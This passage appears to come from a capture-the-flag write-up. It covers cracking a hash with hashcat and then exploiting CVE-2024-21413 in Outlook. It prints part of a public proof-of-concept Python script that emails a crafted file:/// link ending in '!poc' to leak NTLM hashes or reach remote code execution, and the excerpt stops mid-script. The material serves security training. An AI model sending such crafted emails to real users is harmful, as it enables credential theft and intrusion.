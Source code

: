 ![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_8.png' | relative_url }})
<br/><br/>
Analyze the hash and find the password using hashcat
<br/><br/>
![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_9.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_10.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f/d11f8ba2-e853-43c2-9007-4b59c086c274-export-410450b0-4f01-44b6-bb34-b9959ebdf34f_Untitled_11.png' | relative_url }})
<br/><br/>
- CVE-2024-21413
<br/><br/>
    Once we have credentials for hmailserver administrator based in the information mentioned before we can try a NTLM attack stealing the hash using another vulnerability CVE-2024-21413
<br/><br/>
    This vulnerability has some implications like the potential leakage of local NTLM information and a possible RCE.
<br/><br/>
    ```python
    import smtplib
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    import argparse
    import sys
    
    BLUE = "\033[94m"
    GREEN = "\033[92m"
    RED = "\033[91m"
    ENDC = "\033[0m"
    
    def display_banner():
        banner = f"""
    {BLUE}CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
    Alexander Hagenah / @xaitax / ah@primepage.de{ENDC}
    """
        print(banner)
    
    def send_email(smtp_server, port, username, password, sender_email, recipient_email, link_url, subject):
    
        """Sends an email with both plain text and HTML parts, including advanced features."""
        msg = MIMEMultipart('alternative')
        msg['Subject'] = subject
        msg['From'] = sender_email
        msg['To'] = recipient_email
    
        text = "Please read this email in HTML format."
        
        html = f"""\
        <html>
        <body>
            <h1><a href="file:///{link_url}!poc">CVE-2024-21413 PoC.</a></h1>
        </body>
        </html>
        """
    